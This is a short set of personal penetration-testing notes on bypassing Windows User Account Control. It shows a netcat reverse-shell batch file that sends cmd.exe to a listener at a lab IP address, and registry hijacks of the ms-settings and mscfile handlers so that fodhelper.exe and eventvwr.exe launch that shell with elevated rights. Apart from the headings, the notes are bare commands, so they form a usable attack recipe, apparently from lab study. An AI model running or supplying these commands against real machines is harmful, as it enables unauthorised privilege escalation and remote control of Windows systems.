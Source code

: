 
## Medium to High Mandatory Level ( UAC Bypass )

UAC Bypass if groups are shown as the following

```txt
c:\> whoami /groups
...
BUILTIN\Administrators
Mandatory Label\Medium Mandatory Level
...
```

## Upload netcat
![[Pasted image 20220105092144.png]]

```txt
# shell.bat
c:\users\public\downloads\nc.exe -e cmd.exe 192.168.119.123 9000
```

## fodhelper.exe
```txt
C:\Windows\System32\fodhelper.exe
```

https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/

```txt
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "C:\users\public\downloads\shell.bat" /f

c:\> fodhelper.exe
```

![[Pasted image 20220105083809.png]]

## eventvwr.exe
```txt
C:\> reg add HKCU\Software\Classes\mscfile\shell\open\command /d "c:\users\public\downloads\shell.bat" /t REG_SZ

C:\> eventvwr.exe
```
